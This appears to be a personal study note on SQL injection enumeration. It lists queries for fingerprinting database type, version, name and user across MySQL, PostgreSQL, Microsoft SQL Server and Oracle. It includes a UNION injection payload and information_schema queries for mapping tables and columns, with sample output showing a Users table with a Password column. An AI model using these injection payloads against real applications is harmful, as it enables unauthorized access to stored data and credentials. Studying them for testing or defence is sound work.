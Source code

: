 ## Querying the Database Type and Version
You can potentially identify both the database type and version by injecting provider-specific queries to see if one works. The following are some queries to determine the database version for some popular database servers:

| Database type    | Query                     |
| ---------------- | ------------------------- |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |

For example, you could use a `UNION` attack with the following input `' UNION SELECT @@version--`. Which might return the following output. In this case, you can confirm that the database is Microsoft SQL Server and see the version used:
```txt
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor
```
## Query the Database Name and User
You can potentially identify both the database name and user by injecting provider-specific queries to see if one works. The following are some queries for some popular database servers:

| Database type | Query                       |
| ------------- | --------------------------- |
| MySQL         | `SELECT database()`         |
| PostgreSQL    | `SELECT current_database()` |
| Microsoft     | `SELECT db_name()`          |
| Oracle        | `SELECT * FROM v$database;` |

| Database type | Query                                              |
| ------------- | -------------------------------------------------- |
| MySQL         | `SELECT current_user()` or `SELECT session_user()` |
| PostgreSQL    | `SELECT current_user` or `SELECT current_role`     |
| Microsoft     | `SELECT user_name()`                               |
| Oracle        | `SELECT * FROM v$database;`                        |

## Enumerating using `information_schema` Database
The `information_schema` database contains metadata about the database, tables, and columns present on the server, making it a crucial step for attackers to view or enumerate when performing SQL injection vulnerabilities.
> Note: Most databases have an `information_schema` present, except for Oracle databases.

There are a couple of ways an attacker can use the `information_schema` database to fingerprint the database:
### Query `schemata` Table to List All Databases
The table `schemata` in the `informatioN-schema` database contains information about all databases on the server. The `schema_name` column contains all the databases names currently present.
```sql
SELECT 1,schema_name,3,4 FROM information_schema.schemata-- -
```
> Reminder: We are adding an extra dash (-) at the end, to show you that there is a space after (--).

>Note: This enumeration section is usually done by using the UNION operator. To know more about UNION attacks, refer to this [page](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FSQL%20Injection%2FUNION%20Attacks%2FIntroduction).
### Listing Contents of Databases
An attacker can also query the `tables` in the `information_schema` database to view information about all the tables throughout the database. This table contains multiple columns, but the `TABLE_NAME` and `TABLE_SCHEMA` are the most important ones as they store the table names and the table's associated database.
```sql
SELECT * FROM information_schema.tables
```
This returns the following output:
```txt
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```
Additionally, you can also inspect the table structure by submitting the following query:
```sql
SELECT * FROM information_schema.columns WHERE table_name='Users'
```
This returns the following output:
```txt
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```
### Listing Contents of Oracle Databases
On Oracle, you can find the same information as follows:
- You can list tables by querying `all_tables`:
```sql
SELECT * FROM all_tables
```
- You can list columns by querying `all_tab_columns`:
```sql
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```